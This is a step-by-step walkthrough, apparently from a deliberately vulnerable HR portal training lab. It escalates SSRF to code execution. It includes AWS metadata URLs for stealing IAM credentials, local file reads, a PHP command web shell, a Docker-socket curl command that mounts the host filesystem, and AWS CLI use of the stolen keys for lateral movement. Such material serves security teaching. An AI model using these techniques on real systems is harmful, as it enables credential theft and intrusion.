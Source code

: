 
# Attack 2: Server-Side Request Forgery (SSRF) to Remote Code Execution (RCE)

SSRF allows attackers to make the server perform HTTP requests to internal resources. This can be escalated to Remote Code Execution in certain scenarios.

## Step 1: Access the Document Upload Page

1. First, log in to the HR Portal (you can use the SQL injection from Attack 1)
2. Navigate to the Document Upload page (`/documents`)

## Step 2: Performing the SSRF Attack

### Basic SSRF Attack

1. Select any file to upload (the content doesn't matter, but having a small text file is helpful)
2. Look for the "Upload Destination" dropdown
3. By default, it will contain `s3://employee-bucket/documents/`
4. Either:
   - Select the "Debug - EC2 Metadata (SSRF)" option from the dropdown
   - OR select "Custom Location" and enter `http://169.254.169.254/latest/meta-data/`
5. Click "Send SSRF Request" (the button text will change when using HTTP URLs)
6. Observe the response displayed in the preview window below the upload form

### Advanced SSRF Attacks

You can try these additional SSRF targets:
- `http://localhost:8080` - Access local services running on the container
- `http://internal-jenkins:8080` - Access internal Jenkins server (if available in the network)
- `file:///etc/passwd` - Read local files on the server (Local File Inclusion)

## Step 3: Extract IAM Credentials

1. Now that you've confirmed the SSRF vulnerability works, let's extract IAM credentials
2. Set the upload URL to: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
3. Click "Send SSRF Request"
4. This will return a list of IAM roles attached to the EC2 instance
5. Note the role name (e.g., `hr-portal-ec2-role`)
6. Change the URL to: `http://169.254.169.254/latest/meta-data/iam/security-credentials/hr-portal-ec2-role`
7. Click "Send SSRF Request" again
8. This will return temporary AWS credentials including:
   - `AccessKeyId`
   - `SecretAccessKey`
   - `Token`
9. Copy these credentials for the next steps

## Step 4: Container Breakout via SSRF

After exploiting SSRF to discover internal network information, you can attempt a container breakout:

1. Select the "Container Environment (Breakout)" option from the dropdown or manually enter `/proc/self/environ`
2. Click "Execute Container Breakout"
3. Review the environment variables displayed, which may include:
   - AWS credentials
   - Container names and IDs
   - System paths and configuration

4. Try other container paths such as:
   - `/proc/1/cgroup` - Shows container information
   - `/etc/hostname` - Shows container hostname
   - `/proc/self/mounts` - Shows mounted filesystems

## Step 5: Upload a Web Shell

After extracting information via SSRF and container breakout, you can upload a web shell:

1. Select "Web Server Root (PHP)" from the dropdown
2. Create a simple PHP file with the following content:
```php
<?php
  if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
  }
?>
```
3. Upload this file with a `.php` extension
4. Click "Upload Web Shell"
5. Note the path where the file is uploaded (typically `/var/www/html/your-file.php`)
6. In a real attack, you would now access this URL: `http://server-ip/your-file.php?cmd=id`
7. This would execute the `id` command on the server and return the output

## Step 6: Complete Container Escape

With a web shell in place, you can attempt a complete container escape:

1. Use the web shell to explore the container file system
2. Look for mounted Docker sockets: `/var/run/docker.sock`
3. If found, you can use this to escape the container:
   ```
   curl -X POST -H "Content-Type: application/json" \
     --unix-socket /var/run/docker.sock \
     -d '{"Image":"alpine","Cmd":["/bin/sh","-c","echo ESCAPED > /tmp/escape.txt"],"HostConfig":{"Binds":["/:/host"]}}' \
     http://localhost/containers/create
   ```
4. This command would create a new container with the host's root directory mounted at `/host`
5. You could then access and modify files on the host system

## Step 7: Lateral Movement in AWS

Using the AWS credentials obtained earlier:

```bash
# Configure AWS CLI with the stolen credentials
export AWS_ACCESS_KEY_ID=ASIA...  # Use the AccessKeyId from Step 3
export AWS_SECRET_ACCESS_KEY=...  # Use the SecretAccessKey from Step 3
export AWS_SESSION_TOKEN=...      # Use the Token from Step 3
export AWS_DEFAULT_REGION=us-east-1  # Adjust region if necessary
```

Then you can:
1. List S3 buckets: `aws s3 ls`
2. List EC2 instances: `aws ec2 describe-instances`
3. Create backdoor Lambda functions (if you have permission)
4. Access other services within the AWS environment

## Troubleshooting SSRF Attacks

If you're not seeing the expected SSRF responses:

1. Make sure you're using the exact URL: `http://169.254.169.254/latest/meta-data/`
2. Try with trailing slash and without
3. Check the browser console for any errors
4. Try different paths like:
   - `http://169.254.169.254/latest/meta-data/ami-id`
   - `http://169.254.169.254/latest/meta-data/hostname`
5. If running in a browser, understand that some requests may fail due to CORS policies
   - In a real attack, the SSRF is executed server-side where CORS doesn't apply
   - You may see simulated responses in our demonstration environment

## Note on Browser CORS Limitations

Because this demonstration runs in a browser, some SSRF attempts may be blocked by the browser's security mechanisms (CORS). In a real server-side vulnerability, these restrictions would not apply because the request would originate from the server, not the browser.

If your SSRF attempt shows a CORS error, this is normal browser behavior. In a real attack scenario:
1. The attacker would exploit a server-side vulnerability
2. The server would make the request (not subject to browser restrictions)
3. The attack would succeed where a browser-based attempt would fail
